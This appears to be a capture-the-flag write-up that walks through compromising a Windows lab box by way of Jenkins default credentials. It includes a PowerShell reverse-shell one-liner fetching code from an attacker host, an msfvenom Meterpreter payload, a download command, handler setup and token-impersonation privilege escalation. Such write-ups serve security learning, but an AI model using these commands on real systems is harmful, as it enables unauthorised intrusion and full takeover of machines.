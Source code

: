 IP: 10.10.61.138

3 ports open:
 - 80 http IIS 7.5
 - 3389 sql server
 - 8080 http Jetty 9.4.z-snapshot

Jetty has a robots.txt entry
which is just /
the webpage is a login for jenkins with deafult creds of admin:admin

when logged in you can write code as a batch command under project/configure
a reverse shell with powershell
```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://10.4.57.102:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IP 10.4.57.102 -Port 9001
```
1. Set up python webserver to host payload
2. Set up netcat listener to catch the shell.

when on the box run whoami to find user then navigate to their desktop for the user flag.


meterpreter time
create a windows meterpreter reverse shell using msfvenom
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.4.57.102 LPORT=9001 -f exe -o shell.exe
```
1. make payload in msfvenom
```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.4.57.102:8000/shell.exe','shell.exe')"
```
2. start a handler in metasploit.
```bash
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.4.57.102 set LPORT 9001 run
```
3. run from within the powershell session with Start-Process "shell.exe"

to priv esc.
1. load incognito
2. list_tokens -g
3. impersonate_token "BUILTIN\Administrator"
To have the permissions of the new account migrate the process to services.exe

Spawn a shell and locate the root.txt file.
